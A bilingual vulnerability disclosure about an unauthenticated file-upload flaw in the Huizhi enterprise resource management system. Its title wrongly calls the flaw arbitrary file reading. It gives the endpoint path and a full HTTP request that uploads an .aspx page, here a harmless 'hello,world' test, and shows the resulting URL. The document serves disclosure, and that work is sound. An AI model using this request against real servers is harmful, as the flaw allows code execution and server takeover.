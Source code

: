 ##  汇智企业资源管理系统 存在任意文件读取漏洞(There is arbitrary file reading vulnerability in Huizhi enterprise resource management system)



### Info

The program Enterprise Resource management system developed by Shenzhen Huizhi Software Development Co., Ltd. has a file upload vulnerability, which is a common serious security risk in Web applications, and provides an opportunity for attackers to upload and execute malicious script files. This vulnerability may not only lead to the server being completely taken over, the execution of arbitrary commands, but also may lead to a series of serious consequences such as data leakage, website content tampering. What's more, once the attack is successful, the attacker can also use the vulnerability to further spread the attack, affecting more users and systems. Leak path: / nssys/common/Upload. Aspx? Action=DNPageAjaxPostBack

------

深圳汇智软件开发有限公司 开发的程序 汇智企业资源管理系统 存在文件上传漏洞,文件上传漏洞是Web应用程序中一种常见的严重安全风险，它为攻击者提供了可乘之机，使他们能够上传并执行恶意的脚本文件。这种漏洞不仅可能导致服务器被完全接管，执行任意命令，还可能引发数据泄露、网站内容篡改等一系列严重后果。更为严重的是，一旦攻击成功，攻击者还可以利用该漏洞进一步扩散攻击，影响更多的用户和系统。漏洞路径为：/nssys/common/Upload.aspx?Action=DNPageAjaxPostBack 

### Vuln information

![image-20240723093556878](2.png)

HTTP data

```http
POST /nssys/common/Upload.aspx?Action=DNPageAjaxPostBack HTTP/1.1
Host: 127.0.0.1:8031
Content-Length: 1033
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary= ----WebKitFormBoundaryLkkAXATqVKBHZ8zk
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: ASP.NET_SessionId=wxybf2dxluu5sjlb2vxdyrsa
Connection: close

------WebKitFormBoundaryLkkAXATqVKBHZ8zk
Content-Disposition: form-data; name="__VIEWSTATE"

/wEPDwUJOTc0NzkxMzQ1D2QWAgIDDxYGHhdJc0JlZm9yZU9wZXJhdGVTYXZlRGF0YWgeBmlzZ3VpZAUBMR4OY2hlY2tmb3Jtc3RhdGUFATBkZHwobq1hNj9MTgjOtrIn/0gbCdhD
------WebKitFormBoundaryLkkAXATqVKBHZ8zk
Content-Disposition: form-data; name="__VIEWSTATEGENERATOR"

573D6CFB
------WebKitFormBoundaryLkkAXATqVKBHZ8zk
Content-Disposition: form-data; name="upfile_Input"


------WebKitFormBoundaryLkkAXATqVKBHZ8zk
Content-Disposition: form-data; name="upfile_upload"; filename="1"
Content-Type: image/jpeg

<!DOCTYPE html>
<html>
<head>
    <title>ASP.NET Web Forms Example</title>
</head>
<body>
    <%@ Page Language="C#" %>
    <% Response.Write("hello,world"); %>
</body>
</html>
------WebKitFormBoundaryLkkAXATqVKBHZ8zk
Content-Disposition: form-data; name="upfilename"

2.aspx
------WebKitFormBoundaryLkkAXATqVKBHZ8zk
Content-Disposition: form-data; name="dnpostmethodname"

uploadfile
------WebKitFormBoundaryLkkAXATqVKBHZ8zk--

```

![image-20240723101055386](4.png)

http://127.0.0.1:8031/Upload/2024-07/2.aspx

![image-20240723101149039](5.png)





The file upload vulnerability allows an attacker to upload malicious files to a server, execute code, obtain sensitive data, or even take complete control of the server. The following are the main hazards of file upload vulnerabilities:
Server takeover: An attacker can take control of the server and execute arbitrary commands by uploading malicious script files.
Data breach: Attackers can upload files to servers, access and steal sensitive data
Website tampering: Attackers can upload script files, tamper with website content, and conduct phishing or other fraudulent activities.
Malicious code execution: The server executes scripts uploaded by users, which may cause code execution and further harm system security
File upload vulnerability is a very serious security threat in Web applications, and attackers can use these vulnerabilities to carry out various malicious activities. Therefore, for any Web application with file upload capabilities, strict input validation and file type checks must be carried out to prevent such vulnerabilities from occurring.